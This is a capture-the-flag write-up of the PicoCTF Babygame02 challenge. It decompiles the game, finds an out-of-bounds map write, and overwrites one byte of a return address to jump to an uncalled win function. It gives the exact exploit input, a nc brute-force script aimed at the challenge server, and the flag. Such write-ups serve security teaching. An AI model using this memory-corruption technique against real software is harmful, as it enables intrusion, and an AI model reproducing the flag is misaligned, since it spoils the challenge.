 PicoCTF Babygame02 Writeup: <br>
Like Babygame01, we are placed in a 30 x 90 grid
with a flag('X') placed on the bottom right corner. Upon reaching it, the
game exits, but we do not get the flag.

![Start of the game](images/babygameEnter.png)

Opening the game in ghidra we get the following decompiler output from main:

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  int iVar1;
  int local_aa8;
  int local_aa4;
  undefined local_a9d [2700];
  char local_11;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  init_player(&local_aa8);
  init_map(local_a9d,&local_aa8);
  print_map(local_a9d,&local_aa8);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      local_11 = (char)iVar1;
      move_player(&local_aa8,(int)local_11,local_a9d);
      print_map(local_a9d,&local_aa8);
    } while (local_aa8 != 0x1d);
  } while (local_aa4 != 0x59);
  puts("You win!");
  return 0;
}
```

Like before, **local_a9d** is the map, player height is **local_aa8**, and width is **local_a9d** based on the while conditionals, but this time there is no win flag. The game just exits after you reach the 'X', how are we supposed to get the game to print out the flag?

When looking at the symbol table, we see that win function is still there, it just isn't called by anything.

![Win function in symbol tree](images/ghidraWin.png)

Maybe cleaning up the decompiler output will give us more clues?

![image of player struct](images/playerStructGhidra.png)

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  int iVar1;
  playerStruct player;
  char map [2700];
  
  init_player(&player);
  init_map(map,&player);
  print_map(map,&player);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      move_player(&player,(int)(char)iVar1,map);
      print_map(map,&player);
    } while (player.height != 0x1d);
  } while (player.width != 0x59);
  puts("You win!");
  return 0;
}
```

Note to myself: retyping map from undefined[2700] to char[2700] removed the ecx stack
alignment stuff local_10 and also local_11? 

Now the code is cleaned up and pretty looking :)

Like before, the only thing we control is the input to move_player so lets see what this function lets us do.

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void move_player(playerStruct *player,char input,int map)

{
  int iVar1;
  
  if (input == 'l') {
    iVar1 = getchar();
    player_tile = (undefined)iVar1;
  }
  if (input == 'p') {
    solve_round(map,player);
  }
  *(undefined *)(player->height * 0x5a + map + player->width) = 0x2e;
  if (input == 'w') {
    player->height = player->height + -1;
  }
  else if (input == 's') {
    player->height = player->height + 1;
  }
  else if (input == 'a') {
    player->width = player->width + -1;
  }
  else if (input == 'd') {
    player->width = player->width + 1;
  }
  *(undefined *)(player->height * 0x5a + map + player->width) = player_tile;
  return;
}
```

It looks like the same as before, we are able to set our player's position to anything, and so we can overwrite memory outside of the map. We can also change
player_tile using 'l'. Does this mean we can arbitrarily change the memory to anything we want? Unfortunately we can not. After moving away from a tile, the game writes 0x2e to the the original position, so any value we set will get overwritten by dots one turn later. 

We need to call the win function, and we have the ability to overwrite an arbitrary amount of bytes with the value 0x2e, and one byte with a chosen value.
What can we do? The address of the win function is0x0804975d, but thats 4 bytes, and we only have one byte at our disposal. However, move_player is called at 0x08049704 and its return value is the address of the next instruction, 0x08049709. This is only one byte off from the address of win, so we only need to overwrite a single byte
 to return to win!

![Where move_player gets called from main, along with where it returns
to](images/movePlayerCall.png)

To find the position of the location of move_player's return address relative to
the map, we can use gdb. I've set a breakpoint at the very start of
move_player (before ebp is pushed) in order to examine its return value and arguments.

![finding addresses with gdb](images/gdbFindAddress.png)

At this state, esp contains the return address, esp + 0x4 contains the address
of the player struct (move_player's first argument), esp + 0x8 points to our input (0x77='w'),
and esp + 0xc is address of the beginning of the map struct. We want to change
the least significant byte of our return address from 0x09 to 0x5d, so we want
to write to 0xffffc24c (this is little endian, so the LSB is stored at the
base). Our map starts at 0xffffc273 (based on the third argument) so we want to
access map[0xffffc24c - 0xffffc273] = map[-39]. Of course, we want to be careful
not to write to other values on the stack that might cause the game to break.
One way we could do that is by setting our index to have the game access map[51]
and moving up so that the game will access map[51-90]=map[-39]. I will do this: 
set the player to 0x5d = ']' and move to (0, 0), than perform the following
sequence of moves:
```
's' map[90]
'a' * 39 map[90 - 39] = map[51]
'w' map[51 - 90] = map[-39]
```
Final command looks like this: 

`echo aaaawwwwl]saaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaw | ./game`

On local machine:

![win function triggered](images/localOutput.png)

Unfortunately I get trolled on the challenge instance and it breaks before giving a flag :(
This is probably because the address of win is different so what I did was brute force the value of the last byte of win's address. Here's a little script I wrote to make brute forcing
easier.

```bash
#! /bin/sh

pwn () {
	echo "aaaawwwwl$1saaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaw" | nc saturn.picoctf.net XXXXX > out; tail out
}
```

After like 5 attempts,

![Flag is given](images/pwn.png)


We get the flag **picoCTF{gamer_jump1ng_4r0unD_0c5d2789}**


